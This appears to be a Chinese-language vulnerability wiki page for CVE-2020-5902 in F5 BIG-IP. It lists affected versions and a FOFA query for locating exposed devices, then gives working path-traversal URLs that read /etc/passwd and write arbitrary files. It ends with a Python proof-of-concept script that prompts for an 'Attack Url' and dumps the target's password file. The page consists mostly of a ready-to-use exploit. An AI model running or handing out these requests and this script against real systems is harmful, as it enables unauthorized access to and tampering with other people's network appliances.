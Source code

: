 <languages />

<translate>

漏洞影響
--------

</translate>

    F5 BIG-IP 15.x: 15.1.0.4

    F5 BIG-IP 14.x: 14.1.2.6

    F5 BIG-IP 13.x: 13.1.3.4

    F5 BIG-IP 12.x: 12.1.5.2

    F5 BIG-IP 11.x: 11.6.5.2

FOFA
----

    title="BIG-IP&reg ;- Redirect"

<translate>

漏洞利用
--------

</translate> <translate>

### 讀取文件

</translate>

    http://xxx.xxx.xxx.xxx/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd

<translate>

### 寫入文件

</translate>

    http://xxx.xxx.xxx.xxx/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp

    POST: fileName=/tmp/test.txt&content=test

POC
---

    import requests
    import sys
    import json
    from requests.packages.urllib3.exceptions import InsecureRequestWarning

    def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
        print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
        print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
        print('+  \033[34mVersion: F5 BIG-IP                                                \033[0m')
        print('+  \033[36m使用格式: python3 CVE-2020-5902.py                                  \033[0m')
        print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url):
        version_url = target_url + "/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
            "Accept-Language":"zh-CN,zh;q=0.9",
        }
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.get(url=version_url, timeout=10, verify=False, headers=headers)
            if "output" in response.text:
                print("\033[32m[o] 目标 {} 存在漏洞，响应为:\n{}\033[0m".format(target_url, json.loads(response.text)["output"]))
            else:
                print("\033[31m[x] 目标漏洞无法利用 \033[0m")

        except Exception as e:
            print("\033[31m[x] 目标漏洞无法利用 ,{}\033[0m".format(e))
            sys.exit(0)


    if __name__ == '__main__':
        title()
        target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
        POC_1(target_url)

<translate>

參考
----

</translate> <https://short.pwnwiki.org/?c=Kum2Ch>